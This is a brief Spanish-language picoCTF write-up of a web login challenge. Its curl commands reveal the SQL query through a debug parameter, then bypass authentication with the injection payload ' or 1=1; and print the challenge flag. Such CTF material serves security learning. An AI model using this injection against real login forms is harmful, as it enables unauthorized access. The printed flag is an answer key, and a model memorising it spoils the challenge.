## Objetivo 
There is a website running at `https://jupiter.challenges.picoctf.org/problem/39720/` ([link](https://jupiter.challenges.picoctf.org/problem/39720/)) or http://jupiter.challenges.picoctf.org:39720. Do you think you can log us in? Try to see if you can login!

## Solución
```bash
root@DESKTOP-8T8TJ1H:~# curl https://jupiter.challenges.picoctf.org/problem/39720/login.php -d "username=admin&password=
admin"
<h1>Login failed.</h1>root@DESKTOP-8T8TJ1H:~#
root@DESKTOP-8T8TJ1H:~# curl https://jupiter.challenges.picoctf.org/problem/39720/login.php -d "username=admin&password=admin&debug=1"
<pre>username: admin
password: admin
SQL query: SELECT * FROM users WHERE name='admin' AND password='admin'
</pre><h1>Login failed.<
root@DESKTOP-8T8TJ1H:~# curl https://jupiter.challenges.picoctf.org/problem/39720/login.php -d "username=' or 1=1;&passw
ord=admin&debug=1"
<pre>username: ' or 1=1;
password: admin
SQL query: SELECT * FROM users WHERE name='' or 1=1;' AND password='admin'
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{s0m3_SQL_c218b685}</p>root@DESKTOP-8T8TJ1H:~#
```
## Notas
si se modifica el debug a 1, entra lo que mandamos en el cuadro de texto, y hace una consulta normal a la base de datos
A esta consulta:
 SELECT * FROM users WHERE name='admin' AND password='admin' 
Le agrega esto:
or 1=1;
## Referencias
https://portswigger.net/web-security/sql-injection#:~:text=What%20is%20SQL%20injection%20(SQLi,application%20makes%20to%20its%20database. 

